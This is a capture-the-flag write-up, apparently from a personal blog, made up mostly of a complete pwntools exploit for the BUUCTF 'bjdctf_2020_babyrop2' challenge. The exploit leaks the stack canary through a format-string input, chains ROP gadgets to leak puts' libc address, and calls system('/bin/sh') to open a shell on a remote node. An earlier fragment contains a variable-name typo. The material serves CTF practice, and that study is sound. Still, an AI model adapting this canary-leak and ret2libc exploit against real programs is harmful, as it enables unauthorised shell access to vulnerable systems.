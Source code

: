```python
libc=LibcSearcher('puts',puts_addr)
base=putd_addr-libc.dump('puts')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')

payload=junk+p64(pop_rdi)+p64(bin_sh)+p64(system)+p64(main)
```

完整exp

```python
from pwn import*
from LibcSearcher import*

context(os='linux',arch='amd64',log_level='debug')
io=remote('node4.buuoj.cn',28388)
#io=process('/home/vi0let/文档/pwn/BUUCTF/bjdctf_2020_babyrop2')
elf=ELF('/home/vi0let/文档/pwn/BUUCTF/bjdctf_2020_babyrop2')

payload='%7$p'
io.sendline(payload)
io.recvuntil('0x')
canary=int(io.recv(16),16)

junk=b'a'*(0x20-8)+p64(canary)
main=elf.sym['main']
vuln_addr=elf.sym['vuln']
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_rdi=0x0000000000400993

payload=junk+p64(0)				     #覆盖ebp
payload+=p64(pop_rdi)+p64(puts_got)  #参数传入puts地址
payload+=p64(puts_plt)				 #调用puts函数打印出来
payload+=p64(vuln_addr)				 #返回地址为vuln函数，为下次拿到shell做准备

io.recvuntil('story!\n')
io.sendline(payload)
puts_addr=u64(io.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))

libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.dump('puts')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')

payload=junk+p64(0)+p64(pop_rdi)+p64(bin_sh)+p64(system)#+p64(main)
io.sendline(payload)
io.interactive()
```

2022/03/24
